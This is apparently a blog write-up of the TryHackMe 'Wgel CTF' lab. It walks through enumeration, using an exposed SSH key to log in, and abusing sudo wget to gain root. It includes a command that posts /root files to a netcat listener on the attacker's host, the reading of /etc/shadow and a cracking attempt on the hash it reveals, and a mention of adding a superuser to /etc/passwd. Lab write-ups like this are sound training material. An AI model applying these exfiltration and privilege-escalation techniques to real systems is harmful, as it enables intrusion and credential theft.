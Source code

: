 ```yaml
---
title: "Wgel CTF"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="wgel.png" alt="wgel" width=200/>

## Enumeration

### nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf
```
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11374, Words: 3512, Lines: 379]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
sitemap                 [Status: 301, Size: 314, Words: 20, Lines: 10]


/sitemap

.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10]
css                     [Status: 301, Size: 318, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10]
```

visit `sitemap` directory and get to unapp template page

we fuzz again and in `.ssh` dir you have an `id_rsa` key

we know what to do

```
└──╼ $python2 /usr/share/john/ssh2john.py -w=/usr/share/wordlists/rockyou.txt id_rsa > id_john
id_rsa has no password!
```

wait what? I don't even know who to ssh as...let's go back

folks you remember how we insist all the time on ALWAYS checking source code?

It was in `/index.html`...yes that default index page for apache servers

```
        <pre>
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 <!-- Jessie don't forget to udate the webiste -->
          </pre>

```

Now we ssh as `jessie`...Don't forget to fix permissions on the key

```
└──╼ $chmod 600 id_rsa

└──╼ $ssh jessie@10.10.92.232 -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```

```
jessie@CorpOne:~/Documents$ cat user_flag.txt
jessie_flag_suddenly_appears
```
## Privilege Escalation

```
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

wget unh? sounds easy

Notice how we could probably just `su` to root if we had jessie's sudo password

ok gtfobins say we can download root files...so if the root flag is in the same format as
user flag we get `/root/root_flag.txt`

You can use `find` to confirm that

set a netcat listener on your side

```
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.8.226.203:2311
--2021-11-27 15:27:02--  http://10.8.226.203:2311/
Connecting to 10.8.226.203:2311... connected.
HTTP request sent, awaiting response... 
```

```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 58212
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.226.203:2311
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

root_flag_goes_here
```

And we got root flag! at this point we could just call it a day...

But there is always another possibility

if we can use `wget` to read files we might as well read interresting ones

`/etc/shadow`
```
...
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```
ha! jessie's hash! those are crackable!

looks like sha-512crypt 

```
└──╼ $hashcat -m 1800 '$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

```
well its gonna take too long and I don't have that patience now

But feel free to explore. What I liked the most about this room was the multiple
ways to escalate

By example there is also a possibilty to add a new superuser to `/etc/passswd`

You download, modify and upload the file...

If you are curious enough you will find another way




























